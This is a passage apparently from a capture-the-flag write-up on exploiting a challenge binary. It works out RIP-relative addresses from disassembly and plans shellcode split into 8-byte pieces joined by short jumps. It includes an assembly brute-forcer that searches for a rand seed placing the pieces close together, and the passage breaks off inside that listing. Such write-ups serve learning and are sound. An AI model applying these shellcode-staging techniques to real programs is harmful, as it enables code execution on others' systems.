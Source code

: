 The buffer is located at `$BASE_ADDRESS + 0x15e1 + 0x3a2f` (remember RIP points to the *next* instruction)

It also calls `(*CODE)()`:
![More disassembly](https://i-was-scammed-by.dabbot.org/7kH8KBT.png "Dereferences CODE and calls it")

```
 » disass | grep '48 8b 15 e6 39 00 00' -A 1
    1613:	48 8b 15 e6 39 00 00 	mov    rdx,QWORD PTR [rip+0x39e6]        # 5000 <stderr@@GLIBC_2.2.5+0x20>
    161a:	b8 00 00 00 00       	mov    eax,0x0
```

The variable is at `$BASE_ADDRESS + 0x161a + 0x39e6` (in the python script below I used 0x1355 and 0x3cab,
since I got the address from another function, but both pairs add up to the same value)

To write the shellcode, I needed to figure out the offsets used in `store_secret`, so I extracted the
code that generates the offsets to a file and ran it.

If you notice the scanf specifier, only 8 bytes can be read, so the shellcode must be stitched together
with jumps. To avoid wasting precious bytes with jumps, I wanted to use the `JMP rel8` variant of it, which
adds a signed 8 bit integer to RIP, using up 2 bytes of space. But that requires that the addresses be close
to each other, which needed some brute forcing, with the following program:

`gcc source.S source.c -O3 -o brute && ./brute`

`3764` was the chosen seed (it was the lowest one, and made exploiting printf easier).

```asm
.intel_syntax noprefix

// int32_t get_next_index(int32_t secret_idx, int32_t* buffer)
get_next_index: .globl get_next_index
    push rbp
    mov rbp, rsp

    push rsi
    push rdi
    call rand
    pop rdi
    pop rsi
    cdq // Convert Doubleword to Quadword
        // The CDQ instruction copies the sign (bit 31) of the
        // value in the EAX register into every bit position in
        // the EDX register.
    shr edx, 0x18
    add eax, edx
//  too much effort to figure out what were the actual registers
//  so i just copied the bytes 1:1 from ghidra
//  start movzx
    .byte 0x0f
    .byte 0xb6
    .byte 0xc0
//  end   movzx
    sub eax, edx
    mov edx, eax
    mov eax, edi
    cdqe
    mov dword ptr [rsi + rax*0x4 - 0x30], edx
    mov eax, edi
    cdqe
    mov eax, dword ptr [rsi + rax*0x4 - 0x30]
```